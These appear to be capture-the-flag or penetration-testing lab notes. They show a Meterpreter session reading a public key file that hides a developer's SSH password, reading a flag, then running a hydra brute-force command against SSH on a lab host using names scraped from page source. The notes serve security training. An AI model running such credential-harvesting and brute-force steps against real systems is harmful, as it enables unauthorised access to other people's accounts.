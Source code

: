 ```bash
meterpreter > cat id_rsa.pub 
ssh-rsa AAAAB3NzaC1yc2EAAAABJQAAAQEAlGWzjgKVHcpaDFvc6877t6ZT2ArQa+OiFteRLCc6TpxJ/lQFEDtmxjTcotik7V3DcYrIv3UsmNLjxKpEJpwqELGBfArKAbzjWXZE0VubmBQMHt4WmBMlDWGcKu8356blxom+KR5S5o+7CpcL5R7UzwdIaHYt/ChDwOJc5VK7QU46G+T9W8aYZtvbOzl2OzWj1U6NSXZ4Je/trAKoLHisVfq1hAnulUg0HMQrPCMddW5CmTzuEAwd8RqNRUizqsgIcJwAyQ8uPZn5CXKWbE/p1p3fzAjUXBbjB0c7SmXzondjmMPcamjjTTB7kcyIQ/3BQfBya1qhjXeimpmiNX1nnQ== rsa-key-20190313###ssh://developer:dF3334slKw@172.16.64.182:22#########################################################################################################################################################################################
```

in This ud_rsa we caught the username and password of the ssh:
	developer:dF3334slKw

developer@xubuntu:~$ cat flag.txt 

> Pwned!


# LAB 2

## KALI
```bash
172.16.64.10


172.16.64.81
172.16.64.91
172.16.64.92
172.16.64.166
```

## 166
inside 8080/about-us source-code

a couple of names:

Elizabeth Lopez
Tara Baker
Becky Casey
Randy Carlson
Pablo Roberts
Bessie Hammond
Gerardo Malone
Sabrina Summers

```bash
hydra -l users -P /usr/share/wordlists/rockyou.txt 172.16.64.166 ssh -s 2222 
```

sabrin@172.16.64.166 
with the password that we got from the banner CHANGEME

> ssh sabrina:CHANGEME
